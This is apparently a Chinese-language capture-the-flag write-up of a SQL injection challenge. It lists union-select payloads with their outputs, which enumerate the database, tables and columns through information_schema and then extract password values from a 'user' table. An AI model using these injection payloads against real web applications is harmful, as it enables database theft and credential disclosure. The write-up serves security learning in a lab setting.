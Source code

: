 [Web-CTF](http://120.114.62.45)

# ACTF-SQL Injection資料庫注入攻擊(post)


欄位用select確認一格
'union select 1#要group_concat() 才有database() 原因不明

字串太長會load不出結果

後來發現可以用括號
=`'union(select(database()))#`

##爆庫

### 爆table name

in:
'union(select(group_concat(table_name))from information_schema.tables where table_schema=database())#

out:
Account:user

### 爆column name

in:
'union(select(group_concat(column_name))from information_schema.columns where table_name=user)#
out:
無

#### 爆column name

in:
'union(select(group_concat(column_name))from information_schema.columns where table_name='user')#

out:
Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routin

### 撈 User(column)

in:
'union(select(User)from user)#

out:
無

### 撈 Host(column)
in:
'union(select(Host)from user)#

out:無

### 撈 Password(column)
in:
'union(select(Passowrd)from user)#

out:
Account:J_password</br>Account:M_password</br>Account:E_password</br>Account:F_password</br>Account:ACTF{*********}
